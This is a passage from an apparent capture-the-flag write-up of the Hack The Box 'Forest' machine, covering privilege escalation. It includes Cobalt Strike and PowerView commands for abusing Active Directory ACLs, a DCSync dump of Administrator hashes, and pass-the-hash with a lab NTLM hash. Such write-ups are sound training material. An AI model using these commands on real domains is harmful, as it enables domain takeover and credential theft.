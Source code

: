 ![](/img/Forest/Pasted%20image%2020250302173656.png)
![](/img/Forest/Pasted%20image%2020250302175258.png)
![](/img/Forest/Pasted%20image%2020250302180121.png)

![](/img/Forest/Pasted%20image%2020250302180349.png)
Privilege Escalation 
Using Cobalt Strike, I modified Active Directory ACLs to give full control to the user `sploit`:This technique  leverages **R**esource-Based Constrained Delegation (RBCD) abuse or ACL abuse to escalate privileges****
```
powershell Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity sploit -Rights All
make_token sploit password- 
dcsync htb.local htb\Administrator
make_token Administrator htb.local 32693b11e6aa90eb43d32c72a07ceea6
```

- **DCSync Attack** – Using Mimikatz’s `lsadump::dcsync` module, we mimic a **Domain Controller** and extract all password hashes from Active Directory.

![](/img/Forest/Pasted%20image%2020250302225055.png)

![](/img/Forest/Pasted%20image%2020250302203214.png)

```
make_token Administrator htb.local 32693b11e6aa90eb43d32c72a07ceea6
```
![](/img/Forest/Pasted%20image%2020250303212822.png)
![](/img/Forest/Pasted%20image%2020250303201318.png)
**Pass-the-Hash Attack** – With the extracted NTLM hashes, we can now authenticate as the **Administrator** without knowing the actual password. We can grab our user.txt

![](/img/Forest/Pasted%20image%2020250303211749.png)

## 📜 Conclusion
### Key Takeways Include
1. BloodHound is a game-changer for mapping attack paths and privilege escalation routes in Active Directory.
2. Abusing Active Directory ACLs and DCSync Abuse
3. ASREPRoasting  attack
4. Cobalt Strike Aggressor Scripts & Common Commands
5. OPSEC concepts


# References & Suggested Reading:
https://rioasmara.com/2023/11/26/user-impersonation-with-cobaltstrike/
https://github.com/fox-it/Invoke-ACLPwn
https://github.com/dirkjanm/ldapdomaindump